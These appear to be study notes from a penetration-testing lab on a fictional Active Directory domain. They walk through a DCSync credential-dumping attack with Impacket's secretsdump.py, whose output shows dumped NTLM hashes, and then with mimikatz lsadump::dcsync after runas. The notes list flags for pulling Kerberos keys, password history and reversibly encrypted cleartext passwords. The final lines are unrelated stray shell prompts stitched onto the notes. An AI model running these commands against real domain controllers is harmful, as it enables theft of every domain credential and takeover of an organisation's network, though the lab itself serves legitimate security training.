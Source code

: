 ```
[!bash!]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK# 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
```

Here we are using `-just-dc` flag to to extract NTLM hash and Kerberos Keys from NTDS file.

we can use `-just-dc-ntlm` if we ant only NTLM hash

also we can use, `-just-dc-user <USERNAME>` to extract data for a specific user.

and flag `-user-status` to check if user is disabled.

`-history` to dump password history.

Using `-just-dc` flag creates three file 

→ one with NTLM hash
→ one with Kerberos Keys
→ one containing cleartext password from the NTDS for any accounts set with reversible encryption

When reversible encryption is enabled in an account, password are not stored in cleartext.Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

- `PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl` → lists user with reversible encryption set

# **Performing the Attack with Mimikatz**

Using mimikatz we must target a specific user.

also mimikatz should run in the context of the user who has DCSync Privileges, which can be achieved using `runas.exe`

- `C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell`→ running as user adunn

Now in the new powershell, fireup mimikatz

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) 
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz 
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist